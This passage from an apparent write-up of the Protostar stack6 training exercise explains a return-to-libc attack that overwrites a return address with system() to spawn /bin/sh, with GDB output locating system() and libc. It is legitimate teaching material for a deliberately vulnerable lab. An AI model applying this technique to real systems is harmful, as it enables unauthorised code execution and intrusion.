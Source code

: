<img src="/assets/img/post/2020-07-10-exploit-education-protostar-stack-series/stack6.png" style="width: 50%" >

As shown in the photo above we will replace the return address 1 of `getpath()` with `system()` and return address 2 is not important and will be explained in stack seven. Finally we will have to pass a string which is the command we want to execute, which will be `/bin/sh`. So in GDB we need to find the address of `system()`.

```shell
(gdb) p system
$3 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
```
Now we need to find where libc is loaded so we can call `/bin/sh`

```shell
(gdb) info proc map 
process 11431
cmdline = '/opt/protostar/bin/stack6'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
         0x804a000  0x806b000    0x21000          0           [heap]
        0xb7e96000 0xb7e97000     0x1000          0        
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0        
        0xb7fde000 0xb7fe2000     0x4000          0        
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
```
